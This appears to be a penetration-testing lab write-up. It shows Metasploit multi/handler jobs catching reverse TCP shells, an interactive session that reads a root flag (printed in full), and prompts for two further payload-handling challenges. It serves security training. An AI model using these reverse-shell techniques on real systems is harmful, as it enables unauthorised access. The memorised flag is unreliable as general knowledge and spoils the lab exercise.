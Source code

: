 ```
Jobs
====

  Id  Name                    Payload                    Payload opts
  --  ----                    -------                    ------------
  0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4000
  1   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4001
  2   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4002
  3   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4003
  4   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4004
  5   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4005
  6   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4006
  7   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4007
  9   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4009
  10  Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4010

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               127.0.0.1:4008 -> 127.0.0.1:46506 (127.0.0.1)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

whoami
roo
cd /roo
cat flag.txt
OS{0fd29df8c64fabf05f55f1dbf5919e97}
```

**6.  To solve this challenge, you need to appropriately interact with a Metasploit payload. The VM #2 has an exploit that is triggered by root every minute that executes a bind_tcp meterpreter staged payload using a random port between 30000 and 30010 on localhost. Connect to the machine via SSH and use this exploit and corresponding payload on VM #2 msfconsole to gain access to root and read the flag.**



**7.  To solve this challenge, you need to appropriately interact with a Metasploit payload. The VM #3 has an exploit that is triggered by root every two minutes. Unfortunately, this exploit also is triggered fairly often by a couple of users that will not help you read the flag so you will need to filter out these connections. These connections, including the root one, are targeting the following URIs: contact, update, support, service and reviews. To enable this callback to get through the network filter, the exploit is utilizing HTTP with the Linux x64 meterpreter reverse HTTPS payload, and this payload is calling back to 127.0.0.1 and a random port among 8000, 4443, 8800 and 40443. Use this exploit and corresponding payload to gain access to root and read the flag.**

